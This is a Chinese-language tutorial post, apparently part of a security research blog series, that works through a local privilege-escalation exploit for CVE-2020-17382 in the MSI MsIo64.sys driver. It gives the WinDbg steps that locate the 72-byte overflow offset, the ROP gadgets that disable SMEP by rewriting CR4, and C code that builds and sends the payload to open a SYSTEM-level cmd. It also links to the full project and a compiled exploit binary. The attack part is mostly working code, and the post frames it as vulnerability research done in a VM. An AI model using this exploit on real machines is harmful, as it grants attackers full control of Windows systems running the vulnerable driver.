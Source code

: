 # 【第 13 話】CVE-2020-17382 研究－Buffer Overflow（下）


## 文章大綱
這篇承接[【第 12 話】CVE-2020-17382 研究－Buffer Overflow（上）](/asset/第%2012%20話)的內容，上篇只介紹漏洞成因與觸發 Stack Overflow 造成 BSOD，這篇要利用 CVE-2020-17382 的 Stack Overflow 漏洞搭配 ROP 繞過 SMEP 保護，然後執行 Shellcode 達成提權。


## 動態分析
這篇的目的不只是讓系統崩潰，而是要提權，為此我們需要進一步的分析。

首先要知道我們的輸入會被放到哪個位址，目前只從 IDA 上知道會被放在一個區域變數 `Src` 中，所以我們要在 WinDbg 下斷點在下圖紅框的地方，Virtual Address 是 `0x1623`。

![](IoControlCode.png)

在載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys) 後下斷點，輸入 `lm` 找到 MsIo64.sys 的起始位址為 `fffff80d6ac40000`。

```
kd> lm
start             end                 module name
...
fffff80d`6ac40000 fffff80d`6ac46000   MsIo64     (deferred)  
...
```

將起始位址 `fffff80d6ac40000` 加上 `0x1623` 就是我們要下斷點的位址，因此輸入 `bp fffff80d6ac40000+1623`。接著按 `g` 繼續執行。在執行 Crash.exe 後應該會踩到斷點，停在下面這行。
```
fffff80d`6ac41623 e8b8010000       call    FFFFF80D6AC417E0
```

我們的目的是要知道區域變數 `Src`，也就是 `memmove(Src, SystemBuffer, InputBufferLength);` 的目標位址。在 Windows x64 中的 Calling Convention 是 rcx、rdx、r8、r9 ...，所以這時的 rcx 就是存 `Src`。在 WinDbg 左下方可以看 Registers => User 找到 rcx `0xffff980cbedc7170`。

![](rcx.png)


接著一直輸入 `p` 繼續執行直到 `ret` 為止。
```
fffff80d`6ac416b9 c3               ret
```

`ret` 指令做的事實際上就是 `pop rip`，也就是說下一個要執行的位址會被放在 Stack 上。在 WinDbg 左下方可以看 Call Stack 的第一個值 `0xffff980cbedc71b8`。另外注意到整個 Call Stack 都被蓋滿了 `a (0x61)`。

![](ReturnAddress.png)

將 Return Address 所在的 `0xffff980cbedc71b8` 減掉我們的輸入會被放到的 `0xffff980cbedc7170` 等於 `72 (0x48)`，這就是我們在改到 `RIP` 之前要蓋的長度。


## 繞過 SMEP
雖然很希望能夠直接把 RIP 控成我們給的 Shellcode 的位址，但無奈在 Windows 10 1709 有 SMEP，因此要先繞過這個機制。

在[【第 11 話】Capcom.sys 研究－Arbitrary Shellcode Execution](/asset/第%2011%20話) 有關於 SMEP 的介紹，簡單來說 SMEP 就是禁止 Kernel 執行應用層程式的保護機制，這篇直接說明繞過 SMEP 的部分。

### 竄改 CR4
既然 SMEP 針對的是應用層的 Shellcode，那只要改成 Kernel 的程式就沒問題了。雖然我們沒有 Kernel 執行權，但可以用 ROP（Return-Oriented Programming）繞過，由於 ROP 的 Gadget 都是 Kernel 的程式因此不會被 SMEP 擋掉。

cr4 原本的值可以在 WinDbg 中輸入 `r cr4` 印出，[r](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/debugger/r--registers-) 代表 Registers，後面接要讀或寫的暫存器，原本的 cr4 的值是 `0x1506f8`，拿掉 SMEP 的第 20 bit 就是 `0x506f8`。

```
kd> r cr4
cr4=00000000001506f8
```


### 找 Gadget
用工具 [0vercl0k/rp](https://github.com/0vercl0k/rp) 在 ntoskrnl.exe 中找下面三個 Gadget。前兩個很明顯是為了改 cr4，第三個 `wbinvd` 則是為了清除快取記憶體，否則系統會卡住。

- `pop rcx ; ret`
- `mov cr4, rcx ; ret`
- `wbinvd ; ret`

ntoskrnl.exe 雖然副檔名為 exe，但實際上是跑在 Kernel 的，用工具 DriverView.exe 查看可以找到它。

![](ntoskrnl.png)


## 攻擊腳本（EoP）
攻擊步驟如下
1. 找 ntoskrnl.exe 的起始位址
2. 用 ROP 竄改 cr4
3. 送 Payload 到驅動程式觸發漏洞

程式主要參考 [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)，修改部分程式並加了一些註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2020-17382/CVE-2020-17382)。

### 1. 找 ntoskrnl.exe 的起始位址
ROP Gadget 是在 ntoskrnl.exe 中找的，那在程式中可以搭配 [EnumDeviceDrivers](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers) 列舉所有驅動程式的起始位址，和 [GetDeviceDriverBaseNameA](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-getdevicedriverbasenamea) 比對驅動程式名稱來找到 ntoskrnl.exe 的起始位址。

```c
// 1. 找 ntoskrnl.exe 的起始位址
LPVOID GetBaseAddr(const char* drvname)
{
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int nDrivers, i = 0;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers))
    {
        char szDrivers[1024];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++)
        {
            if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0])))
            {
                if (strcmp(szDrivers, drvname) == 0)
                {
                    return drivers[i];
                }
            }
        }
    }
    return 0;
}
```


### 2. 用 ROP 竄改 cr4
用找到的 Gadget 堆 ROP Payload，繞過 SMEP 後再執行 Shellcode，而 Shellcode 的部分跟[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 做的幾乎相同。

```c
// 2. 用 ROP 竄改 cr4
INT64 pop_rcx_offset = kernel_base + 0x15fc70;    // gadget 1 - pop rcx ; ret
INT64 mov_cr4_offset = kernel_base + 0x76a02;     // gadget 2 - mov cr4, rcx ; ret
INT64 wbindv_offset = kernel_base + 0x1175c0;     // gadget 3 - wbinvd ; ret
INT64 rcx_value = 0x506f8;                        // 要竄改 cr4 關閉 SMEP 的值
INT64 ret = pop_rcx_offset + 1;                   // gadget 1 - ret

BYTE input_buff[136] = {0};
memset(input_buff, '\x41', 72);                               // Stack Overflow 要改到 RIP 前要蓋 72 Bytes
memcpy(input_buff + 72, (PINT64)&pop_rcx_offset, 8);          // pop rcx
memcpy(input_buff + 80, (PINT64)&rcx_value, 8);               // 0x506f8
memcpy(input_buff + 88, (PINT64)&mov_cr4_offset, 8);          // mov cr4, rcx ; 竄改 cr4 關閉 SMEP 的值
memcpy(input_buff + 96, (PINT64)&wbindv_offset, 8);           // wbinvd; ret
memcpy(input_buff + 104, (PINT64)&allocated_shellcode, 8);    // 提權用的 Shellcode 位址
memcpy(input_buff + 112, (PINT64)&mov_cr4_offset, 8);         // mov cr4, rcx ; 把原本 cr4 的值寫回去
memcpy(input_buff + 120, (PINT64)&ret, 8);                    // ret
memcpy(input_buff + 128, (PINT64)&ret, 8);                    // ret
```

### 3. 送 Payload 到驅動程式觸發漏洞
最後就是將在 Stack Overflow 後利用 ROP 繞過 SMEP 並執行 Shellcode 的 Payload 送到驅動程式達成提權，並開啟一個有 System 權限 cmd。

```c
// 3. 送 Payload 到驅動程式觸發漏洞
DWORD lpBytesReturned = 0x0;
BOOL triggerIOCTL = DeviceIoControl(hFile, 0x80102040, input_buff, sizeof(input_buff), NULL, 0, &lpBytesReturned, NULL);
if (!triggerIOCTL)
{
    printf("[!] DeviceIoControl failed: %d\n", GetLastError());
    exit(1);
}

// 提權後跳出一個有 system 權限的 cmd
system("start cmd.exe");
```


## 測試
1. 在 VM 中載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys)
2. 用一般使用者權限執行 [CVE-2020-17382.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/CVE-2020-17382.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`。


## 參考資料
- [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382)
- [Windows 10 x64上令牌窃取有效载荷问题，并绕过SMEP（下）](https://www.4hou.com/shop/posts/4YAV)
- [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)
- [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)
- [x64 呼叫慣例](https://learn.microsoft.com/zh-tw/cpp/build/x64-calling-convention?view=msvc-170)